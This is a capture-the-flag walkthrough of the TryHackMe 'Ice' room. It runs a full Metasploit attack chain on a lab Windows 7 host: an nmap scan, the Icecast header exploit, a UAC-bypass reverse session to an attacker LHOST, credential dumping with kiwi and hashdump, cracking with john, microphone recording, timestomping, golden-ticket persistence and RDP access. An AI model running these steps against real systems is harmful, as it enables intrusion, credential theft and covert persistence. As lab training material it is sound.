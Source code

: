 # Ice

![tryhackme.com - © TryHackMe](<../../learn/.gitbook/assets/tryhackme-logo-small (2).png>)

> 🔬🌐 [Ice](https://tryhackme.com/room/ice)
>
> _Deploy & hack into a Windows machine, exploiting a very poorly secured media server._
>
> <img src=".gitbook/assets/ice.png" alt="" data-size="original">

🎯 Target IP: `10.10.159.9`

## Recon

```bash
mkdir ice
cd ice/
sudo nmap -sS -sV -Pn -p- 10.10.159.9
```

```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
5357/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp  open  http         Icecast streaming media server
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 02:58:8C:89:6C:3D (Unknown)
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Exploitation

```bash
msfconsole -q
setg RHOSTS 10.10.159.9
setg RHOST 10.10.159.9
search cve:2004-1561
use exploit/windows/http/icecast_header
run
```

### Local Enumeration

```bash
getuid
sysinfo
run post/multi/recon/local_exploit_suggester
```

```bash
Server username: Dark-PC\Dark

Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

1 exploit/windows/local/bypassuac_eventvwr         Yes The target appears to be v erable.
2 exploit/windows/local/ms10_092_schelevator       Yes The service is running, but could not be v dated.
3 exploit/windows/local/ms13_053_schlamperei       Yes The target appears to be v erable.
4 exploit/windows/local/ms13_081_track_popup_menu  Yes The target appears to be v erable.
5 exploit/windows/local/ms14_058_track_popup_menu  Yes The target appears to be v erable.
6 exploit/windows/local/ms15_051_client_copy_image Yes The target appears to be v erable.
7 exploit/windows/local/ntusermndragover           Yes The target appears to be v erable.
8 exploit/windows/local/ppr_flatten_rec            Yes The target appears to be v erable.
9 exploit/windows/local/tokenmagic                 Yes The target appears to be vulnerable.
```

## Privilege Escalation

```bash
background
sessions
use exploit/windows/local/bypassuac_eventvwr
set SESSION 1
set LHOST 10.10.55.230
set LPORT 4455
run

getprivs
```

```bash
Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

## Post Exploitation

```bash
pgrep spool
migrate 1376 # poolsv PID
migrate -N spoolsv.exe
getuid 
	Server username: NT AUTHORITY\SYSTEM

# Mimikatz
load kiwi
creds_all
```

> 📌 `Dark`:`Password01!`

```bash
hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Dark:1000:aad3b435b51404eeaad3b435b51404ee:7c4fe5eada682714a036e39378362bab:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

* Cracking (extra)

```bash
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes_ice.txt
```

![](.gitbook/assets/image-20230510172241398.png)

```bash
screenshare
	file:///root/ipzHMhGp.html
record_mic
timestomp
golden_ticket_create # persistence
```

```bash
run post/windows/manage/enable_rdp
xfreerdp /u:Dark /p:Password01! /v:10.10.159.9
```

![](.gitbook/assets/image-20230510171923611.png)

***
